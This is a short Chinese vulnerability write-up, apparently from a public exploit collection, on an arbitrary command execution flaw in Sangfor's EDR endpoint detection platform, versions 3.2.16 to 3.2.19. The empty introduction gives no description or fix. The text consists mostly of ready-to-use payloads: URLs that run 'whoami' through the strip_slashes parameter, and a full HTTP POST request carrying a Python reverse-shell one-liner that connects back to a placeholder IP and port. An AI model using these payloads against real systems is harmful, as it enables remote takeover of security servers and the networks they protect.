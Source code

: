 深信服 终端检测相应平台（EDR） 任意命令执行漏洞（一）
=====================================================

一、漏洞简介
------------

二、漏洞影响
------------

深信服EDR 3.2.16

深信服EDR 3.2.17

深信服EDR 3.2.19

三、复现过程
------------

### payload：

    https://www.0-sec.org/tool/log/c.php?strip_slashes=system&limit=whoami

    https://www.0-sec.org/tool/log/c.php?strip_slashes=system&host=whoami

    https://www.0-sec.org/tool/log/c.php?strip_slashes=system&path=whoami

    https://www.0-sec.org/tool/log/c.php?strip_slashes=system&row=whoami

![1.png](./resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(一)/media/rId25.png)

### 反弹shell payload

    POST /tool/log/c.php HTTP/1.1
    Host: www.0-sec.org
    Connection: close
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.81 Safari/537.36 SE 2.X MetaSr 1.0
    DNT: 1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Content-Type: application/x-www-form-urlencoded;charset=utf-8
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: PHPSESSID=b1464478cad68327229d8f46e60d0a08; _ga=GA1.4.112365795.1597799903; _gid=GA1.4.1225783590.1597799903
    Content-Length: 256

    strip_slashes=system&host=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
